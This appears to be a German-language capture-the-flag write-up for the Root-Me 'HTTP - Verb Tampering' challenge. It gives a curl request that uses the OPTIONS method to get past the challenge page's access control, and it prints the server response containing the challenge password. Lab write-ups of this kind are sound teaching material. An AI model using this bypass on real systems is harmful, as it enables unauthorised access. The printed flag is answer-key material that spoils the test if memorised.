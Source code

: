 ## 🧩 Challenge-Ziel (HTTP - Verb Tampering)

**Ziel:** Diese Challenge demonstriert eine Schwachstelle, bei der durch die Manipulation des HTTP-Verbs (auch bekannt als HTTP-Methode) Zugriff auf Ressourcen erlangt werden kann, die normalerweise durch Zugriffskontrollen geschützt sind.​

### 🧠 Analyse der Webseite

Beim Aufrufen der Challenge-Seite unter:​

`http://challenge01.root-me.org/web-serveur/ch8/`

wird der Zugriff verweigert. Dies deutet darauf hin, dass bestimmte HTTP-Methoden (wie GET oder POST) durch Zugriffskontrollen eingeschränkt sind.​


### 🛠️ Lösungsschritte

1. **Senden einer Anfrage mit einer alternativen HTTP-Methode:** Um die Zugriffskontrolle zu umgehen, senden wir eine Anfrage mit einer anderen HTTP-Methode, beispielsweise `OPTIONS`.
    
    **Verwenden von `curl`:**
```
curl -X OPTIONS "http://challenge01.root-me.org/web-serveur/ch8/" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -b "_ga=GA1.1.1454924502.1745766922; _ga_SRYSKX09J7=GS1.1.1745781207.3.1.1745781207.0.0.0" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36" ^
  --insecure

```   
**Erklärung:**
- `-X OPTIONS`: Gibt an, dass die HTTP-Methode `OPTIONS` verwendet wird.
    
- Die URL ist die Adresse der Challenge.​
    

2. **Analysieren der Serverantwort:** Die Serverantwort sollte Informationen über die unterstützten HTTP-Methoden enthalten. Wenn die Zugriffskontrolle nur für bestimmte Methoden implementiert ist, könnte die Verwendung einer alternativen Methode wie `OPTIONS` den Zugriff ermöglichen.
    
3. **Extrahieren des Flags:** Wenn die Anfrage erfolgreich ist, sollte die Serverantwort den Flag enthalten.
    
    **Auszug der Ausgabe:**

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html><head>
</head>

<h1>Mot de passe / password : a23e$dme96d3saez$$prap
</h1>
</body></html>
```
